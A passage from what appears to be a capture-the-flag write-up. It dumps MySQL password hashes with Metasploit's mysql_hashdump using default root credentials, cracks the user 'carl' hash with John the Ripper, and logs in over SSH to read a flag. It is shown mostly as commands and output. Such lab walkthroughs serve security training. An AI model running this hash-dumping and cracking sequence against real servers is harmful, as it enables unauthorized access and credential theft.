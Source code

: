     RHOSTS => <ip>
    msf5 auxiliary(scanner/mysql/mysql_hashdump) >
    msf5 auxiliary(scanner/mysql/mysql_hashdump) > set USERNAME root
    USERNAME => root
    msf5 auxiliary(scanner/mysql/mysql_hashdump) > set PASSWORD password
    PASSWORD => password
    msf5 auxiliary(scanner/mysql/mysql_hashdump) > exploit
    msf5 auxiliary(scanner/mysql/mysql_hashdump) > exploit

    [+] <ip>:3306      - Saving HashString as Loot: root:
    [+] <ip>:3306      - Saving HashString as Loot: mysql.session:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
    [+] <ip>:3306      - Saving HashString as Loot: mysql.sys:*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
    [+] <ip>:3306      - Saving HashString as Loot: debian-sys-maint:*D9C95B328FE46FFAE1A55A2DE5719A8681B2F79E
    [+] <ip>:3306      - Saving HashString as Loot: root:*<hash>
    [+] <ip>:3306      - Saving HashString as Loot: carl:*<hash>
    [*] <ip>:3306      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed{% endraw %}{% endcapture %} {% include code.html code=code %}

Sae the obtained hash in text and use `john` to crack the hash.
{% capture code %}{% raw %}echo 'carl:*<hash>' > hash.txt
john hash.txt{% endraw %}{% endcapture %} {% include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}Warning: detected hash type "mysql-sha1", but the string is also recognized as "mysql-sha1-opencl"
Use the "--format=mysql-sha1-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/opt/john/password.lst
Proceeding with incremental:ASCII
<password>           (carl)
1g 0:00:00:01 DONE 3/3 (2021-01-13 17:51) 0.7407g/s 1693Kp/s 1693Kc/s 1693KC/s doggie..doggia
Use the "--show" option to display all of the cracked passwords reliably
Session completed.{% endraw %}{% endcapture %} {% include code.html code=code %}

Use `ssh` to login to the machine with cracked password and obtain the flag.
{% capture code %}{% raw %}ssh carl@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}carl@<ip>'s password: doggie
carl@polomysql:~$ cat MySQL.txt
    <flag>{% endraw %}{% endcapture %} {% include code.html code=code %}

